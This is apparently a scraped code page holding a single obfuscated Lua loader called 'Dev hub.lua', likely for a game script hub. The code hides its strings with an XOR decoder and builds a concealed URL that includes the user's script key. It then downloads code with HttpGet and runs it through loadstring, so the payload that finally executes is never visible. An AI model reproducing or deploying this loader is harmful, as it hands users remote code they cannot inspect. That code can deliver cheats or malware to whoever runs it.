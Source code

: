 script_key = "KEY_HERE" -- script: Dev hub.lua
--[[

    This script is protected
    from DEV

]]--
local v0={};local v1=string.char;local v2=string.byte;local v3=string.sub;local v4=bit32 or bit ;local v5=v4.bxor;local v6=table.concat;local v7=table.insert;local function v8(v9,v10) local v11={};for v15=1, #v9 do v7(v11,v1(v5(v2(v3(v9,v15,v15 + 1 )),v2(v3(v10,1 + (v15% #v10) ,1 + (v15% #v10) + 1 )))%256 ));end return v6(v11);end do v0[v8("\227\223\71\32\158\77\47\203\199\121\109\226\106\11\230\150\22","\74\165\179\38\84\215\41")]=0;v0[v8("\48\126\187\0","\220\70\78\158\48\118")]=nil;v0[v8("\192\170\238\116","\114\182\155\203\68")]=nil;while true do if (v0[v8("\85\169\191\236\111\50\118\171\170\199\31\99\80\132\157\189\22","\86\19\197\222\152\38")]==1) then if (game and game[v8("\212\84\108\245\90\67\34","\86\156\32\24\133\29\38")]) then loadstring(game:HttpGet(v0["v1%0"]))();elseif (HTTP and HTTP[v8("\128\160\119","\55\199\229\35\200\29\28")]) then HTTP:GET(v0["v1%0"],function(v19,v20) if (v19==200) then loadstring(v20)();end end);end break;end if (v0[v8("\82\246\221\32\58\112\255\210\32\44\45\175\255\21\48\49\170","\115\20\154\188\84")]==0) then v0[v8("\199\143\200\124","\223\177\191\237\76\225")]="/";v0[v8("\64\152\229\106","\219\54\169\192\90\48\80")]=v8("\65\86\20\53\90","\69\41\34\96")   .. ":"   .. v0[v8("\170\147\146\90","\75\220\163\183\106\98")]   .. v0[v8("\20\234\206\103","\185\98\218\235\87")]   .. v8("\199\41\38\233\220\172\222\47\36\231\202\165\217","\202\171\92\71\134\190")   .. v8("\103\194\35\133","\232\73\161\76")   .. v0[v8("\173\137\7\13","\126\219\185\34\61")]   .. v8("\31\205\76\123\110\99\224","\135\108\174\62\18\30\23\147")   .. v0[v8("\160\185\111\155","\167\214\137\74\171\120\206\83")]   .. v8("\157\161","\199\235\144\82\61\152")   .. v0[v8("\17\70\252\123","\75\103\118\217")]   .. script_key   .. v0[v8("\209\4\53\68","\126\167\52\16\116\217")]   .. v8("\199\32\41\192\188\12\254","\156\168\78\64\224\212\121")   .. v8("\74\191\245\155\80\160\169\219\6\246","\174\103\142\197") ;v0[v8("\112\36\94\44\12\90\253\88\60\96\97\112\125\217\117\109\15","\152\54\72\63\88\69\62")]=1;end end end
